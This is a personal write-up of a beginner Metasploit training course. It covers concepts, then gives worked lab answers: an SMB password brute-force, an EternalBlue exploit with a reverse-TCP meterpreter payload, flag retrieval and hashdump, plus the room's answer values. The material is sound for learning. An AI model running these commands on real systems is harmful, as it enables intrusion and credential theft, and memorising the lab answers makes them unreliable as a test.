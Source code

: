 These are my notes, answers, and writeups for all the rooms in the Complete Beginner Pathway.

- [Metasploit: Introduction](#Metasploit-Introduction)
  - [Questions](#Questions)
- [Metasploit: Exploitation](#Metasploit-Exploitation)
  - [Questions](#Questions-1)

## Metasploit: Introduction
- **Metasploit** is a tool for pentesting, ranging from enumeration to post-exploitation.
- **Metasploit Framework** is the open-source version that works from the command line.
- Main Components
  - msfconsole - CLI
  - modules - scanners, payloads, exploits, etc.
  - tools - msfvenom
- Definitions
  - vulnerability - a flaw in the target system
  - exploits - code that uses a vulnerability
  - **?** payload - code that runs on target system
- Modules
  - auxiliary - supporting modules like scanners, crawlers
  - encoder - encode exploit and payload to bypass signature-based antivirus
  - evasion - evade antivirus software
  - exploits
  - NOP - does thing 
  - payload
    - singles - don't need to download additional components to run
    - **?** adapters - wrap single payloads
    - stagers - set up connection between Metasploit and target system
    - stages - downloaded by stagers, allow for larger payloads
  - post - post-exploitation
- `_` for single (in-line) payload, `/` for staged payload
- **msfconsole** is context-based, meaning all module options settings (unless global) will be lost if the module is changed.
- `setg` is `set` for global variables, likewise `unsetg` for `unsetg`
- The exploitation process is 3 steps:
  1. Find the exploit
  1. Customize the exploit
  1. Exploit the vulnerable service

### Questions
#### Task 2
- What is the name of the code taking advantage of a flaw on the target system?
  > Exploit
- What is the name of the code that runs on the target system to achieve the attacker's goal?
  > Payload
- What are self-contained payloads called?
  > Singles
- Is "windows/x64/pingback_reverse_tcp" among singles or staged payload?
  > Singles
#### Task 3
- How would you search for a module related to Apache?
  > search apache
- Who provided the auxiliary/scanner/ssh/ssh_login module?
  ```
  info auxiliary/scanner/ssh/ssh_login
  ```
  > todb
#### Task 4
- How would you set the LPORT value to 6666?
  > set LPORT 6666
- How would you set the global value for RHOSTS to 10.10.19.23 ?
  > setg RHOSTS 10.10.19.23
- What command would you use to clear a set payload?
  > unset payload
- What command do you use to proceed with the exploitation phase?
  > exploit
  
## Metasploit: Exploitation
- `search portscan` - list port scanning modules
- `nmap` scans can be made in `msfconsole` prompt
- Metasploit is **NOT** fast.
- NETBIOS (Network Basic Input Output System) allows computers to communicate over the network to share files or send files to printers.
- The NetBIOS name of the target system can give you an idea about its role and importance.
- Real pentesting will likely have several targets.
  - Metasploit has a database function to simplify project management and avoid possible confusion when setting up parameter values.
    - Start a PostgreSQL database
      ```
      systemctl start postgresq
      msfdb init
      msfconsole
      db_status
      ```
    - The database feature will allow you to create workspaces to isolate different projects.
    - `workspace` - list available workspaces, use `-h` for help
    -  `db_nmap` - runs `nmap`, saving result to database
    -  `hosts`, `services` - information relevant to hosts and services running on target systems
    -  Once the host information is stored in the database, you can use `hosts -R` to add this value to the RHOSTS parameter.
- Finding vulnerabilities using Metasploit rely heavily on your ability to scan and fingerprint the target.
- Choosing a working payload could become a trial and error process.

### Questions
#### Task 2
- How many ports are open on the target system?
  ```
  nmap <target_ip>
  ```
  > 5
- Using the relevant scanner, what NetBIOS name can you see?
  ```
  use auxiliary/scanner/netbios/nbname
  set rhosts <target_ip>
  run
  ```
  > ACME IT SUPPORT
- What is running on port 8000?
  ```
  use auxiliary/scanner/http/http_version
  set rhosts <target_ip>
  run
  ```
  > webfs/1.21
- What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.
  ```
  use auxiliary/scanner/smb/smb_login
  set rhosts <target_ip>
  set pass_file <pass_file>
  set smbuser penny
  run
  ```
  > leo1234
#### Task 5
- Exploit one of the critical vulnerabilities on the target VM
  ```
  use exploit/windows/smb/ms17_010_eternalblue
  set payload windows/x64/meterpreter/reverse_tcp
  set rhosts <target_ip>
  run
  ```
- What is the content of the flag.txt file?
  ```
  shell
  cd ../..
  dir /b/s flag.txt
  type C:\Users\Jon\Documents\flag.txt
  ```
  > THM-5455554845
- What is the NTLM hash of the password of the user "pirate"?
  ```
  hashdump
  ```
  > 8ce9a3ebd1647fcc5e04025019f4b875



